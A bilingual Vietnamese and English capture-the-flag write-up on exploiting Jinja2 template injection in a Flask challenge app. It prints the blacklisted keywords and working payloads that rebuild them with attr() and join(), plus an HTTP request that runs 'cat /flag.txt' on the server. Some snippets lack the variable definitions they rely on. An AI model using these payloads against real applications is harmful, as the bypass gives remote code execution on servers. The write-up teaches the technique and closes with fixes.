




<div class="lang-switch" role="tablist" aria-label="Language switch">
  <button class="lang-btn" role="tab" type="button" data-lang="en" aria-selected="false">EN</button>
  <button class="lang-btn active" role="tab" type="button" data-lang="vn" aria-selected="true">VN</button>
</div>

<div class="lang-vn" markdown="1">

> **Flag:** `PTITCTF{sst1_j1nj42_bl4ckl1st_byp4ss_rce_succ3ss}`


Bài này thuộc category **Web**. Hệ thống là một ứng dụng web viết bằng Python Flask cho phép sinh viên tạo và kết xuất (render) trang portfolio cá nhân theo mẫu template động.

Mục tiêu là khai thác lỗ hổng tiêm mã mẫu giao diện (SSTI) để vượt qua bộ lọc danh sách đen (blacklist) và đạt được quyền thực thi mã từ xa (RCE).

---

## Sơ đồ luồng phân tích (Solve Flow)



---

## Bước 1: Khảo sát lỗ hổng SSTI và cơ chế lọc

Khi kiểm tra tham số mẫu template đầu vào, hệ thống phản hồi kết quả tính toán biểu thức `{{ 7 * 7 }}` trả về `49`. Điều này xác nhận ứng dụng sử dụng `render_template_string(user_input)` của template engine Jinja2.

Tuy nhiên, server cài đặt một lớp lọc danh sách đen nghiêm ngặt:
* Chặn các ký tự hoặc từ khóa: `__class__`, `__mro__`, `__subclasses__`, `__init__`, `__globals__`, `os`, `popen`, `system`, `import`.
* Nếu request chứa bất kỳ từ khóa nào trong danh sách trên, server sẽ trả về lỗi `403 Forbidden` hoặc `Malicious input detected`.

---

## Bước 2: Kỹ thuật vượt qua Blacklist bằng `attr()` và `join()`

Trong Jinja2:
1. Toán tử truy cập thuộc tính dấu chấm (`obj.prop`) có thể được thay thế bằng bộ lọc `attr()`:
   `obj|attr("prop")` tương đương với `getattr(obj, "prop")`.
2. Tên thuộc tính có thể được tạo thành từ một danh sách các chuỗi con thông qua filter `join()`:
   `['a', 'b']|join` $\rightarrow$ `"ab"`.
3. Ký tự gạch dưới kép `__` có thể được biểu diễn bằng mã escape thập lục phân `\x5f`:
   `['\x5f', '\x5f', 'globals', '\x5f', '\x5f']|join` $\rightarrow$ `'__globals__'`.

Nhờ cơ chế này, toàn bộ các từ khóa nhạy cảm đều không xuất hiện dưới dạng chuỗi rõ ràng trong payload.

---

## Bước 3: Khai thác RCE và Thu thập Flag

Trong Jinja2, đối tượng mặc định `lipsum` hoặc `cycler` luôn có sẵn trong ngữ cảnh toàn cục. Từ hàm tạo của đối tượng, ta có thể truy cập ngược lại từ điển `__globals__` chứa module `os`:

```jinja2





{{ (lipsum|attr(globs))[os_mod].popen(cmd).read() }}
```

Tối giản payload thành một dòng duy nhất để gửi qua HTTP POST:

```jinja2
{{ (lipsum|attr(['\x5f','\x5f','globals','\x5f','\x5f']|join))['os'].popen('cat /flag*').read() }}
```

Khi gửi payload lên server, backend xử lý biểu thức, thực thi lệnh hệ thống `cat /flag*` và in trực tiếp nội dung cờ ra trang web phản hồi.

---

## Biện pháp khắc phục (Defensive Remediation)

1. **Không render trực tiếp chuỗi do người dùng cung cấp:** Thay thế `render_template_string` bằng việc nạp các tệp template tĩnh cố định qua `render_template("portfolio.html", data=safe_data)`.
2. **Sử dụng Môi trường Hộp cát (SandboxedEnvironment):** Nếu bắt buộc phải cho phép người dùng tùy biến template, sử dụng `jinja2.sandbox.SandboxedEnvironment` để chặn đứng toàn bộ việc truy cập vào các thuộc tính nhạy cảm như `__globals__` hay `__subclasses__`.

⇒ **Flag:** `PTITCTF{sst1_j1nj42_bl4ckl1st_byp4ss_rce_succ3ss}`

</div>

<div class="lang-en" markdown="1" style="display: none;">

> **Flag:** `PTITCTF{sst1_j1nj42_bl4ckl1st_byp4ss_rce_succ3ss}`

This challenge belongs to the **Web** category. The application is written in Python Flask, allowing students to generate and preview dynamic portfolio resume pages.

The objective is to exploit Server-Side Template Injection (SSTI) in Jinja2 to bypass a strict keyword blacklist and achieve Remote Code Execution (RCE).

---

## Solve Flow



---

## Step 1: Identifying the SSTI Vulnerability and Blacklist Constraints

Testing standard expressions like `{{ 7 * 7 }}` evaluates to `49`, confirming template injection via `render_template_string`.

The server implements a strict keyword filter:
* Blocked words: `__class__`, `__mro__`, `__subclasses__`, `__init__`, `__globals__`, `os`, `popen`, `system`, `import`.
* When any blocked keyword is detected, the server returns `403 Forbidden` or `Malicious input detected`.

---

## Step 2: Blacklist Evasion with `attr()` and `join()`

In Jinja2, attribute access `obj.attr` can be written as `obj|attr('attr')`. By concatenating character arrays using `join`, we can reconstruct blocked attribute names dynamically:

1. Construct `'__init__'`:
   `['\x5f\x5f','init','\x5f\x5f']|join`
2. Construct `'__globals__'`:
   `['\x5f\x5f','globals','\x5f\x5f']|join`
3. Access built-in object `lipsum`:
   ```jinja2
   {{ (lipsum|attr(['\x5f\x5f','globals','\x5f\x5f']|join))['os']['popen']('cat /flag.txt')['read']() }}
   ```
4. To evade `'os'` and `'popen'`, use dictionary retrieval by index or dynamic hex string concatenation:
   ```jinja2
   
   
   {{ (lipsum|attr(['\x5f\x5f','globals','\x5f\x5f']|join))[os_str][popen_str]('cat /flag.txt')['read']() }}
   ```

---

## Step 3: Exploit Execution

Submit the payload to the render endpoint:

```http
POST /render HTTP/1.1
Host: target.ptitctf.vn
Content-Type: application/x-www-form-urlencoded

template={{(lipsum|attr(['\x5f\x5f','globals','\x5f\x5f']|join))[['o','s']|join][['pop','en']|join]('cat /flag.txt')[['re','ad']|join]()}}
```

The response returns the flag: `PTITCTF{sst1_j1nj42_bl4ckl1st_byp4ss_rce_succ3ss}`.

---

## Defensive Remediation

* Never pass unsanitized user input into `render_template_string()`.
* Pass user data strictly as context variables into pre-compiled template files (`render_template('index.html', user_data=data)`).

</div>


